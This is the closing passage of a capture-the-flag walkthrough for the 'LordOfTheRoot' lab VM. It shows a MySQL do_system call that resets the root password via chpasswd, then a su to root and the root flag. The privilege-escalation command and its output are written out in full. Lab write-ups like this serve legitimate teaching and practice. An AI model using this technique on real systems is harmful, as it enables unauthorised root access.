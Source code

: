 smeagol.smeagol /tmp/out');
+---------------------------------------------------------------------------------------+
| do_system('echo "root:passwd" | chpasswd > /tmp/out; chown smeagol.smeagol
/tmp/out') |
+---------------------------------------------------------------------------------------+
|
0 |
+---------------------------------------------------------------------------------------+
1 row in set (0.02 sec)

mysql> exit
Bye
{% endhighlight %}

## Root 

{% highlight bash %} 
smeagol@LordOfTheRoot:~$ su -
Password: 
root@LordOfTheRoot:~# whoami 
root
root@LordOfTheRoot:~# id
uid=0(root) gid=0(root) groups=0(root)
{% endhighlight %}

## Root Flag 

{% highlight bash %} 
root@LordOfTheRoot:~# cat /root/Flag.txt 
“There is only one Lord of the Ring, only one who can bend it to his will. And
he does not share power.”
– Gandalf
{% endhighlight %}

Thanks for the VM :) 
